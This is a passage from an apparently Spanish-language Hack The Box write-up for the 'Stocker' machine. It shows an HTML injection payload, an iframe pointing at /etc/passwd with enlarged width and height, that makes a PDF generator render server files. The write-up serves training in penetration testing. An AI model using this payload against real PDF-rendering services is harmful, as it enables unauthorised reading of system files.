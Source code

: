![](/assets/img/HTB/writeup-stocker/pdfconhtml.png) _**Figure 15**: Inyectando Código HTML._

Para poder ver mejor todos los archivos de la máquina mejorando el codigo HTML jugando con <span style="color:blue"> width </span> y <span style="color:blue"> height </span> 

```bash
# Inyectamos código HTML jugando con width y height para conseguir ver mediante el PDF archivos de la maquina
--------------------------------------------------------------
<iframe src=/etc/passwd > width =1000 px height =1000 px </iframe>
```

![](/assets/img/HTB/writeup-stocker/root-angoose.png) _**Figure 16**: Archivo /etc/passwd._
